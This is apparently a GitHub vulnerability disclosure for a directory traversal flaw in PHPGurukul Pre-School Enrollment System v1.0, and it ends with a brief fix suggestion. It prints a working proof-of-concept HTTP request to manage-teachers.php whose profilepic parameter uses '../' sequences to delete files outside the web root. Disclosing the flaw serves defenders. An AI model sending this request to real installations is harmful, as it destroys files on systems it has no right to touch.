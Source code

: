 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-2

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by a directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with profilepic in the manage-classes.php file   
   ![1](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100513.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100551.png)
      
   Find the vulnerable function in the manage-teachers.php article, manage-teachers-delete
  
   ![3](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100037.png)
  
   Intercept the data packet and find the problematic parameter profilepic
   
   ![4](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100051.png)

   Transformed into attack payload  

    GET /School/preschool/admin/manage-teachers.php?action=delete&&tid=1&&profilepic=../../../../../../aaa.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate, br, zstd
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/School/preschool/admin/manage-teachers.php
    Accept-Language: zh-CN,zh;q=0.9
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
    Cookie: PHPSESSID=7t2liii8fu23b3cjsll5qi6q8t


   Create aaa.txt test file in the local D drive   
       ![5](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100159.png)   

   Send payload, aaa.txt file has been deleted   
   ![6](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100443.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   

